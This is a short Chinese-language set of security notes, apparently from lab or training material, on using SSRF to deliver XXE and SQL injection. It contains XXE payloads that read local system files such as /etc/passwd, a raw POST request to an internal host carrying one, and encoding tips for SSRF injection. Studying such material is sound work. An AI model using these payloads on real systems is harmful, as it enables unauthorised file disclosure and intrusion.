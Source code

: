 # 8.SSRF进行XXE漏洞利用

### XXE漏洞

```xml
<?xml version = "1.0"?>
<!DOCTYPE note[ <!ENTITY cc "aa"> ]>
<na>&cc;</na>
```

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY f SYSTEM "file:///C://Windows//win/ini"> ]>
<x>&f;</x>
```

 

```
<?xml version = "1.0"?>
<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///C://Windows//win/ini"> ]>
<user><username>&admin;</username><password> admin</password></user> 
```



### 利用SSRF进行XXE漏洞

使用gopher伪协议

需要注意的是post提交的是哪个页面，有可能不是index.php

```xml
POST /doLogin.php HTTP/1.1
Host: 172.250.250.6
contentType: application/xml;charset=utf-8
Content-Length: 131

<!DOCTYPE ANY[ <!ENTITY admin SYSTEM "file:///etc/passwd"> ]><user><username>&admin;</username><password> admin</password></user> 
```

# 9.SSRF进行SQL注入

使用<font color=Red>--%20</font>>注释

使用hackbar提交时会对已经输入的内容进行一次URL编码,把%20替换成%2520

SSRF需要两次URL编码 
